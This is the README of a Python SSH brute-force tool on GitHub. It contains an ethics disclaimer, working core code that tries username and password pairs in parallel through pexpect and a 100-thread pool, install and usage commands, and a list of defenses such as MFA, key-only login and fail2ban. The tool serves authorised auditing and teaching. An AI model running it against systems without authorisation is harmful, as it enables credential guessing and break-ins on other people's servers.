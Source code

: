 # Python SSH Brute-Forcer

This Python script is a command-line tool designed to demonstrate and audit the brute-force vulnerability of SSH (Secure Shell) services. It attempts to gain unauthorized access to an SSH server by systematically trying a list of usernames and passwords, highlighting the critical importance of strong credentials and robust security configurations.
⚠️ Disclaimer - IMPORTANT: Ethical Use Only ⚠️

This tool (python-ssh-bruteforcer) is provided strictly for educational, research, and ethical hacking purposes. Its use is limited to testing systems for which you have explicit, prior, and written authorization from the owner.

The creator of this tool is not responsible for any misuse, illegal activities, or damage caused by its deployment or operation. By using this tool, you acknowledge and agree to assume full responsibility for your actions and to comply with all applicable laws and regulations.
Project Purpose & Learning Objectives

This project was developed to:

    Demonstrate SSH Brute-Force Attacks: Illustrate how an attacker can attempt to guess SSH credentials using wordlists.

    Highlight SSH Security Weaknesses: Show the vulnerability of SSH services to brute-force attacks when weak passwords or common usernames are used, or when protective measures like account lockout are absent.

    Reinforce SSH Security Best Practices: Emphasize the critical importance of strong, unique passwords, multi-factor authentication, and robust server configurations.

    Showcase Concurrent Network Interaction: Demonstrate how to programmatically interact with network services like SSH using Python's pexpect library, leveraging ThreadPoolExecutor for efficient, concurrent login attempts.

How It Works

The bruteforcer.py script operates by:

    Parsing Arguments: It accepts command-line arguments for the target SSH server IP/hostname, a password wordlist, and optionally a username wordlist or a single username.

    Reading Wordlists: It reads potential passwords (and usernames, if provided) from the specified text files.

    Concurrent Login Attempts: It uses a ThreadPoolExecutor to manage multiple concurrent login attempts. Each username/password pair is submitted as a separate task to the thread pool, allowing the script to try many combinations in parallel.

    Thread-Safe Progress & Results: Global variables and threading.Lock objects are used to safely track the number of attempts and store any found credentials across multiple threads.

    Reporting Attempts: For each attempt (or periodically for large lists), it provides feedback on the progress.

    Reporting Success: If a successful login occurs, it prints the found username and password and attempts to gracefully shut down other active tasks.

Code Snippet (Core Concurrent Login Logic):

from concurrent.futures import ThreadPoolExecutor
from threading import Lock
import pexpect.pxssh

# Global variables for thread-safe access
found_credentials_lock = Lock()
found_credentials = []
attempt_count_lock = Lock()
current_attempts = 0

def attempt_login(host, username, password):
    """Attempts an SSH login for a single username/password pair."""
    global current_attempts
    with attempt_count_lock:
        current_attempts += 1
        # Progress printing logic here...

    try:
        s = pexpect.pxssh.pxssh(timeout=5) # Initialize pxssh for each thread
        s.login(host, username, password)
        with found_credentials_lock:
            found_credentials.append({'username': username, 'password': password})
            print(f"\n[!!!] VALID CREDENTIALS FOUND: {username}:{password}")
            s.logout()
            return True
    except pexpect.pxssh.ExceptionPxssh:
        pass # Authentication failed
    except Exception as e:
        print(f"[!] An unexpected error occurred for {username}:{password}: {e}")
    return False

# ... (in main function) ...
with ThreadPoolExecutor(max_workers=100) as executor:
    for username in usernames:
        for password in passwords:
            executor.submit(attempt_login, host, username, password)
    # ... logic to wait for futures or break early ...

Installation

To use this script, simply clone the repository:

git clone https://github.com/ghostface-security/python-ssh-bruteforcer.git && cd python-ssh-bruteforcer/

This script requires the pexpect library. You can install it using pip:

pip install pexpect

Usage

    Prepare your wordlist files:

        Password Wordlist: Create a text file (e.g., passwords.txt) with one potential password per line.

        Username Wordlist (Optional): Create a text file (e.g., usernames.txt) with one potential username per line.
        (Note: Wordlist files are NOT included in this repository and must be sourced by the user for ethical testing purposes.)

    Run the script from your terminal:

        With a single username:

        python3 bruteforcer.py --target <target_ip> --passlist <path_to_passwords.txt> --username <single_username>

        Example:

        python3 bruteforcer.py -t 192.168.1.100 -p passwords.txt -U admin

        With a username wordlist:

        python3 bruteforcer.py --target <target_ip> --passlist <path_to_passwords.txt> --userlist <path_to_usernames.txt>

        Example:

        python3 bruteforcer.py -t 192.168.1.100 -p passwords.txt -u usernames.txt

Ethical Use Cases

    Personal Server Auditing: Test the strength of SSH credentials on your own servers or devices in a controlled lab environment.

    Educational Demonstrations: Use in a controlled lab to teach about SSH security, brute-force attacks, and the importance of strong authentication.

    Penetration Testing (with Authorization): As part of a professional penetration test, with explicit, prior, and written permission from the client, to identify weak SSH credentials.

Defensive Countermeasures

This tool highlights the critical need for robust SSH security. To protect against SSH brute-force attacks, it is imperative to implement:

    Strong, Unique Passwords: Enforce long, complex, and unique passwords for all SSH accounts.

    Multi-Factor Authentication (MFA): Implement MFA (e.g., TOTP, FIDO2 keys) for SSH logins. This is the most effective defense, as a compromised password alone will not grant access.

    SSH Key-Based Authentication: Prefer SSH key pairs over password authentication. Disable password authentication entirely if possible.

    Account Lockout Policies: Configure your SSH server (e.g., via pam_tally2 or fail2ban) to temporarily or permanently lock accounts after a certain number of failed login attempts.

    Rate Limiting: Use firewall rules or SSH server configurations to limit the number of connection attempts from a single IP address over time.

    Change Default Port: While not a security measure in itself, changing the default SSH port (22) can reduce the volume of automated brute-force attempts from general scanners.

    Use fail2ban: This popular intrusion prevention framework can automatically ban IP addresses that show malicious signs like too many failed login attempts.

License

This project is licensed under the MIT License - see the LICENSE file for details.
